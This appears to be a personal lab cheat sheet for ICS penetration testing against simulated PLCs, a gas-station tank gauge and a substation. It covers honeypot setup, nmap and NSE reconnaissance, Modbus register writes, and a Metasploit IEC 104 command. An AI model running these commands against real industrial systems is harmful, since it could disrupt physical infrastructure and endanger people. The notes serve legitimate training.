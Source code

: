 ## A simple honeypot
sudo python3 -m honeypots --setup telnet,http,smb,vnc,snmp

## PLC Simulation 1
Change the first half part of the MAC address to 001C06 \
conpot -f --template default \
sudo nmap <IP_address> -Pn -sU -p 16100 \
sudo nmap <IP_address> -Pn -p- \
snmp-check --port 16100 <IP_Address>


## S7 PLC Simulation 2
sudo python3 \
import snap7 \
s7 = snap7.server.Server() \
s7.create() \
s7.start() \
s7.get_status()

python2 plcscan.py 192.168.168.11 \
sudo nmap 192.168.168.11 -Pn -p 102 --script ~/ICS_attack_scripts/Redpoint/s7-enumerate \
/usr/share/nmap/scripts/s7-info.nse

msfconsole -> search Siemens \
searchsploit 

## Gas Station Controller Simulation
Automatic Tank Gauge
Change the first half part of the MAC address to 00A0F6 \
conpot -f --template guardian_ast \
sudo nmap 192.168.168.12 -Pn -p 10001 --script ~/ICS_attack_scripts/Redpoint/atg-info.nse \
filetype:pdf I20100 \
https://www.veeder.com/us/sites/veeder.com.us/files/2020-09/576013-818%20-%20TLS-3XX%C2%A0Series%20Consoles%20Troubleshooting%20Guide.pdf \
https://www.ericzhang.me/gas-station-atgs-exposed-to-public/ \
telnet 192.168.168.12 10001 \
CTRL + A and I20100 \
Some function codes: \
I20100 1 In-Tank Inventory Report \
I20200 1 In-Tank Delivery Report \
I20300 1 In-Tank Leak Detect Report \
I20400 1 In-Tank Shift Inventory Report \
I20500 1 In-Tank Status Report

## Modbus PLC Simulation
sudo nmap -Pn 192.168.168.12 -p 502 --script ~/ICS_attack_scripts/Redpoint/modbus-discover.nse \
metasploit modules -> search modbus 

modbus read 192.168.168.12 %MW0 10 \
modbus write 192.168.168.12 %MW0 0 0 0 0 0 0 0 0 0 

## Pentesting a ChronoGuard Infrastructure Substation
Change the first half part of the MAC address to 001D59 \
nano .local/lib/python3.10/site-packages/conpot/templates/IEC104/snmp/snmp.xml \
Change the snmp port from 161 into 16100 \
conpot -f --template IEC104 \
sudo nmap 192.168.168.12 -p 2404 --script ~/ICS_attack_scripts/Redpoint/iec-identify.nse \
metasploit -> search iec104 \
use auxiliary/client/iec104/iec104 \
set ASDU_ADDRESS <learn_from_nmap_nse> \
check the ChronoGuard manual \
ASDU_ADDRESS 7720 \
COMMAND_ADDRESS 3348 \
COMMAND_TYPE 45 \
COMMAND_VALUE 0




  
